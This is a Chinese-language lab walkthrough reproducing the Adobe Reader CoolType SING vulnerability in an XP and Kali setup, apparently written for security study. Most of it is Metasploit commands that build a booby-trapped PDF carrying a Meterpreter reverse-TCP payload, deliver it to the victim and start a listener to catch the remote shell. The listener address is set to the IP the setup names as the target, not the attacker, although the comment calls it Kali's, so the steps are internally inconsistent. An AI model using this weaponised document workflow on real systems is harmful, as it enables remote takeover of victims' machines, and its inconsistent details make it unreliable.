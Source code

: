 [官方文档链接](https://www.adobe.com/support/security/bulletins/apsb10-21.html)  

## 二、漏洞复现

### 1. 环境搭建

- 靶机环境：Windows XPx86 SP3
- 靶机配置：192.168.44.153:8888
- 攻击机环境：Kali Linux 2021.2
- 攻击机配置：192.168.44.152

### 2. 复现过程

(1) Kali中启动Metasploit生成木马文件


```cpp,c
搜索Adobe渗透模块  
msf > search adobe_cooltype_sing 
调用渗透模块  
msf > use exploit/windows/fileformat/adobe_cooltype_sing/ 
```
![1.PNG](https://i.loli.net/2021/08/18/7U8wDKMjncduFNG.png)

```cpp,c
调用meterpreter载荷，反向连接到渗透机  
msf  exploit(adobe_cooltype_sing) > set payload windows/meterpreter/reverse_tcp  
设置Kali Linux的IP地址  
msf  exploit(adobe_cooltype_sing) > set LHOST 192.168.44.153  
设置本地监听端口  
msf  exploit(adobe_cooltype_sing) > set LPORT 8888  
设置带有后门程序的PDF文件  
msf  exploit(adobe_cooltype_sing) > set FILENAME PINGINGLAB.pdf  
执行渗透生成文件  
msf  exploit(adobe_cooltype_sing) > exploit 
```
![2.PNG](https://i.loli.net/2021/08/18/xXsa5voP48n9Qhy.png)

(2) 将PDF木马文件发送至靶机

![3.PNG](https://i.loli.net/2021/08/18/kfsAW96YKS54Cvp.png)

(3) Metasploit开启shell监听会话，等待靶机打开pdf

```cpp,c
使用handler监听模块  
msf > use exploit/multi/handler  
回弹一个tcp连接  
msf  exploit(handler) > set payload windows/meterpreter/reverse_tcp  
设置监听IP地址（跟PDF木马文件一致）  
msf  exploit(handler) > set LHOST 192.168.44.153 
设置监听的端口（跟PDF木马文件一致）  
msf  exploit(handler) > set LPORT 8888  
开启监听  
msf  exploit(handler) > exploit 
```
![4.PNG](https://i.loli.net/2021/08/18/Eonq2xFUw4CHR6B.png)
